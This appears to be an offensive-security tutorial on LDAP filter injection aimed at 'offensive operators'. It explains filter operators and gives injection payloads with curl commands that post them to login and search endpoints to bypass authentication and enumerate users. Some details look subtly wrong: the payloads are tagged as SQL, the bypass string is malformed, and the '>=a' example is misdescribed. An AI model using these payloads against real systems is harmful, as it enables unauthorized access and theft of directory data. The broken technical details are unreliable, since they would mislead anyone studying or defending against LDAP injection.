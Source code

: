 ```yaml
---
title: Leveraging LDAP Filter Syntax for Attacks
description: Learn how to exploit LDAP filter syntax for authentication bypass and
  data extraction through injection techniques.
keywords:
- LDAP filter syntax
- authentication bypass
- data extraction
- LDAP injection
- vulnerability exploitation
- filter operators
- cybersecurity techniques
- LDAP wildcard
- security assessments
---
```


# Filter Syntax Exploitation

## Context

In this guide, we focus on enabling offensive operators to leverage LDAP filter syntax for injection purposes. This can lead to authentication bypass and unauthorized data extraction when properly executed. This article assumes that you have a foundational understanding of the LDAP protocol, its standard filter syntax, and general LDAP injection concepts.

## Theory

### LDAP Filter Operators and Their Roles

LDAP filter operators are crucial in defining the logical and comparison operations within LDAP queries. These filters allow for precise query formulation by offering a range of operations. These include the AND operator (`&`), the OR operator (`|`), the NOT operator (`!`), as well as equality (`=`), presence (`*`), substring matching, approximate matching (`~=`), greater-or-equal (`>=`), and less-or-equal (`<=`) comparisons. These filters help in constructing complex queries to navigate directory services effectively.

### Exploitation Mechanisms in Filter Syntax

The primary vulnerability model in filter syntax exploitation stems from improper input sanitization, which can lead to injection of attacker-controlled filters, thereby altering the intended query logic. Exploitation occurs when an attacker crafts specific inputs that inject operators or wildcards. This manipulation changes how the filters are evaluated, potentially leading to unintended behavior such as unauthorized data access or authentication bypass.

### Manipulating Filter Logic for Offensive Gain

By strategically injecting LDAP filter syntax, attackers can manipulate logic for offensive purposes. For example, injecting an OR operator (`|`) can bypass authentication by always evaluating the condition to true, regardless of the input. Additionally, wildcards (`*`) can be used to perform broad searches or confirm the presence of attributes without specific matches. Combining multiple operators allows attackers to refine their strategy for both simple bypasses and for targeted data retrieval, escalating the impact of the attack.

## Practice

### Authentication Bypass via OR Operator Injection

- **Payload:** 
  ```sql
  *) (|(uid=*))
  ```
  *This payload injects an OR condition that always evaluates to true, effectively bypassing any authentication barriers in place.*

- **Command Execution:**
  ```bash
  curl -d 'username=*) (|(uid=*))&password=irrelevant' http://target-app/login
  ```
  *The command sends the crafted payload to the vulnerable login endpoint, exploiting the OR operator to bypass authentication.*

- **Outcome:** An attacker can gain unauthorized access to the application without valid credentials.

### Data Extraction via Wildcard and Substring Filters

- **Payload:** 
  ```sql
  uid=*
  ```
  *Here, the wildcard is used to match all user IDs, serving as a brute-force method to extract user data.*

- **Command Execution:**
  ```bash
  curl -d 'username=*&password=irrelevant' http://target-app/search
  ```
  *This command submits the payload to a search endpoint, facilitating the enumeration of all user identities.*

- **Outcome:** The attacker successfully retrieves a list of user accounts from the directory.

### Targeted Attribute Extraction with Greater-or-Equal Filter

- **Payload:** 
  ```sql
  uid>=a
  ```
  *This uses the greater-or-equal filter operator to filter user IDs that are lexically equal to or greater than 'a'.*

- **Command Execution:**
  ```bash
  curl -d 'username=>=a&password=irrelevant' http://target-app/search
  ```
  *The attempt here is to extract user information for accounts starting with the letter 'a' and onwards.*

- **Outcome:** Enables attackers to perform precise data extraction based on specific criteria, narrowing down the results to targeted user ranges.

## Tools

- **curl**
- **Burp Suite**
- **ldapsearch**

These tools are essential for crafting payloads, sending commands, and analyzing responses when performing filter syntax exploitation during security assessments. They facilitate the manipulation of LDAP queries to observe different outcomes, making them invaluable for offensive cybersecurity operations.